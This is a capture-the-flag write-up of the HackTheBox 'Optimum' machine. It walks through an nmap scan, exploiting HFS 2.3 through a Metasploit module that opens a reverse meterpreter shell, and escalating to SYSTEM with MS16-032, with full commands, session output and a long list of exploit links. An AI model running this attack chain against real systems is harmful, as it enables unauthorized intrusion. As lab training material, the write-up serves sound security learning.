


HackTheBox - Optimum
Reconnaissance
Starting with a Nmap scan to discover used ports and services behind, with our usual options:
-sCruns defaults Nmap scripts-sVtries to identify the software versions-oAwill output the results in files prefixed by nmap_tcp and using the formats xml, nmap and gnmap-p-will scan all ports and not the 1000 usual ones
$ sudo nmap -sC -sV -O -oA nmap_tcp -p- $ip
Nmap scan report for 10.10.10.8
Host is up (0.039s latency).
Not shown: 65534 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.36 seconds
And let’s start a UDP scan (with the -sU flag) in the background:
sudo nmap -sU -p- -oA nmap_udp_1000 $ip
( I rooted this box before the UDP scan ended so… I don’t have the results :‘D)
Enumeration
| Port | Service | Version | Note |
|---|---|---|---|
| 80/tcp | http | HttpFileServer httpd 2.3 | vuln to EBD-ID 39161 and EBD-ID 34668 |
OS: Windows 2012 R2 (6.3 Build 9600) x64
Initial Foothold
Let’s go visit that webserver! Browse to http://10.10.10.8:

It looks like an online fileserver, maybe the file upload function has some vulnerability? Or the login page? Let’s check if the Internet has any public exploits:

So, we’ve got:
-
https://www.exploit-db.com/exploits/34668 : remote code execution with no PoC
-
https://www.exploit-db.com/exploits/39161 : remote code execution with a Python PoC
-
https://www.exploit-db.com/exploits/34926 : metasploit module for the exploit 34668
Buh, let’s try that Metasploit module ~~
msf5 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(windows/http/rejetto_hfs_exec) > run
[*] Started reverse TCP handler on 10.10.14.13:4444
[*] Using URL: http://0.0.0.0:8080/Ypf2Zr
[*] Local IP: http://172.16.149.138:8080/Ypf2Zr
[*] Server started.
[*] Sending a malicious request to /
/opt/metasploit/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/opt/metasploit/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /Ypf2Zr
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.8:49162) at 2020-10-28 09:55:42 +0100
[!] Tried to delete %TEMP%\qNIDXs.vbs, unknown result
id
[*] Server stopped.
meterpreter >
And we get a non-privileged shell OPTIMUM\kostas, that allows us to read user.txt.txt:
meterpreter > getuid
Server username: OPTIMUM\kostas
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
40777/rwxrwxrwx 0 dir 2020-11-05 07:12:27 +0100 %TEMP%
100666/rw-rw-rw- 282 fil 2017-03-18 12:57:16 +0100 desktop.ini
100777/rwxrwxrwx 760320 fil 2014-02-16 12:58:52 +0100 hfs.exe
100444/r--r--r-- 32 fil 2017-03-18 13:13:18 +0100 user.txt.txt
Some additional info about the system:
meterpreter > sysinfo
Computer : OPTIMUM
OS : Windows 2012 R2 (6.3 Build 9600).
Architecture : x64
System Language : el_GR
Domain : HTB
Logged On Users : 1
Meterpreter : x86/windows
Note: we are running a x86 meterpreter on a x64 bit system, we should keep that in mind for later.
Privilege Escalation
Does meterpreter has some exploit to suggest to elevate our privileges?
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 34 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
The trouble with local_exploit_suggester is that it’s only suggesting x86 exploits… One way to list x64 exploits would be to migrate our meterpreter to a x64 process. Lists the process with ps:
meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System
228 4 smss.exe
332 324 csrss.exe
380 480 spoolsv.exe
388 324 wininit.exe
396 380 csrss.exe
440 380 winlogon.exe
480 388 services.exe
488 388 lsass.exe
548 480 svchost.exe
576 480 svchost.exe
636 480 svchost.exe
668 440 dwm.exe
676 480 svchost.exe
708 480 svchost.exe
772 480 svchost.exe
804 480 vmtoolsd.exe
824 480 VGAuthService.exe
836 480 svchost.exe
956 548 WmiPrvSE.exe
964 480 svchost.exe
1028 480 ManagementAgentHost.exe
1072 480 vds.exe
1164 480 WmiApSrv.exe
1328 480 svchost.exe
1392 480 dllhost.exe
1532 2412 cmd.exe x86 1 OPTIMUM\kostas C:\Windows\SysWOW64\cmd.exe
1572 480 msdtc.exe
1720 548 WmiPrvSE.exe
1884 1696 explorer.exe x64 1 OPTIMUM\kostas C:\Windows\explorer.exe
1988 708 taskhostex.exe x64 1 OPTIMUM\kostas C:\Windows\System32\taskhostex.exe
2064 2528 wscript.exe x86 1 OPTIMUM\kostas C:\Windows\SysWOW64\wscript.exe
2140 1532 conhost.exe x64 1 OPTIMUM\kostas C:\Windows\System32\conhost.exe
2412 2064 noNbQHcY.exe x86 1 OPTIMUM\kostas C:\Users\kostas\AppData\Local\Temp\rad17D63.tmp\noNbQHcY.exe
2500 1884 vmtoolsd.exe x64 1 OPTIMUM\kostas C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
2528 1884 hfs.exe x86 1 OPTIMUM\kostas C:\Users\kostas\Desktop\hfs.exe
Ideally, we want to migrate to a stable process like a service, not something that is likely to closed soon. Good targets include explorer.exe, vmtoolsd.exe, svchost.exe , winlogon.exe. Here, explorer.exe is x64 and is reliable, it’s a good candidate. To migrate to this process, use migrate followed by the PID of the targeted process:
meterpreter > migrate 1884
[*] Migrating from 2412 to 1884...
[*] Migration completed successfully.
And re-run local_exploit_suggester to check for x64 exploits:
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.10.8 - Collecting local exploits for x64/windows...
[*] 10.10.10.8 - 17 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
We’ve got a couple of options but maybe Windows Exploit Suggester has more results?
Download the script:
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
Install the dependencies:
pip2 install --user xlrd --upgrade
Update the database:
python2 windows-exploit-suggester.py --update
This will create a database of the vulnerabilities as a .xls file.
The script only need the output of systeminfo to suggests vulnerabilities, just grab the output of systeminfo from the machine and save it to systeminfo.txt. Run the script on your host:
# python2 ./windows-exploit-suggester.py --database 2020-10-28-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*]
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*] https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*] https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*] https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*]
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*] https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*]
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*] https://github.com/foxglovesec/RottenPotato
[*] https://github.com/Kevin-Robertson/Tater
[*] https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*] https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*]
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*] https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*] https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*]
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*] https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*]
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*] https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*] https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*] https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*] https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*]
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*] https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*] https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*] https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
[*]
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[*] Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
[*]
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[*] https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
[*] https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
[*]
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[*] https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
[*] https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
[*]
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[*] https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
[*]
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[*] https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
[*]
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[*] https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
[*] https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
[*] https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*]
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*] https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*] https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
[*]
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[*] https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
[*]
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[*] https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
[*]
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*] https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*] https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*]
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*] https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*] https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*] https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*]
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[*] http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
[*]
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*] http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*]
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*] https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*] http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*] http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*] http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*] http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*] http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*]
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*] http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*] http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*]
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*] http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*]
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
There’s more than enough vulnerabilities to test here :o Let’s go with MS16-032 which has a metasploit module, it only requires a session. Put your meterpreter session in the background so you can use another module:
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/http/rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
show [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show options
Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 172.16.149.138 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows x86
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show targets
Exploit targets:
Id Name
-- ----
0 Windows x86
1 Windows x64
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 2
SESSION => 2
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST tun0
LHOST => tun0
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LPORT 5555
LPORT => 5555
A couple of comments about the options:
- use the number of the meterpreter session that was put in background earlier
- don’t forget to use the Windows x64 version of the exploit
- don’t set the LPORT to the same value than the one used by the first exploit (4444)
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run
[*] Started reverse TCP handler on 10.10.14.13:5555
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\rAiYFpORok.ps1...
[*] Compressing script contents...
[+] Compressed size: 3596
[*] Executing exploit script...
__ __ ___ ___ ___ ___ ___ ___
| V | _|_ | | _|___| |_ |_ |
| |_ |_| |_| . |___| | |_ | _|
|_|_|_|___|_____|___| |___|___|___|
[by b33f -> @FuzzySec]
[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2100
[*] Sniffing out privileged impersonation token..
[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2080
[+] Resuming thread..
[*] Sniffing out SYSTEM shell..
[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
lJFg3IiG0Ba1EYxP6ct5ZQStxdKRQH8r
[+] Executed on target machine.
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 4 opened (10.10.14.13:5555 -> 10.10.10.8:49178) at 2020-10-28 19:09:52 +0100
[+] Deleted C:\Users\kostas\AppData\Local\Temp\rAiYFpORok.ps1
Booom, works like a charm!
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > dir
Listing: C:\Users\Administrator\Desktop
=======================================
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100666/rw-rw-rw- 282 fil 2017-03-18 12:52:56 +0100 desktop.ini
100444/r--r--r-- 32 fil 2017-03-18 13:13:57 +0100 root.txt
Loot that root.txt and we’re out of here ~~